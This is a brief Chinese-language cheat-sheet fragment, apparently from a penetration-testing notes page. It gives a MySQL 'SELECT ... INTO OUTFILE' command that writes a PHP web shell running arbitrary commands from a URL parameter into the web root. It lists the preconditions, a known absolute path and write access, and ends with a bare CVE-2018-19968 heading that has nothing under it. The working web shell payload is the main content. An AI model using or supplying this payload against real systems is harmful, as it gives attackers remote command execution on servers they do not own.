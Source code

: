 # 高权限直接写shell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/getshell.php";
```
需要满足的条件
- 网站的绝对路径。
- 拥有可写权限
# CVE-2018-19968

